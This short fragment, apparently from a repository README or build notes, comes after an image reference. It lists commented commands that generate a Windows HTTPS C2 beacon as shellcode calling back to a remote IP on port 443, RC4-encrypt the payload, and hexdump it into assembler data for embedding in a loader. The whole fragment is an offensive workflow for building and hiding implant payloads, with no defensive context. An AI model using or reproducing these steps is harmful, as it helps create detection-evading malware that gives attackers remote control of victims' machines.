 ## generate beacon --seconds 5 --jitter 3 --os windows -a amd64 --format shellcode -b https://172.x.x.x:443 --name httpsBeacon --save /tmp/https50.bin -G --skip-symbols
## python rc4.py <key> <filename>  ---> creates https50.bin.enc
## <hexdump -v -e '1/2 "dw 0%.4xh\n"' https50.bin.enc| tee out.txt>
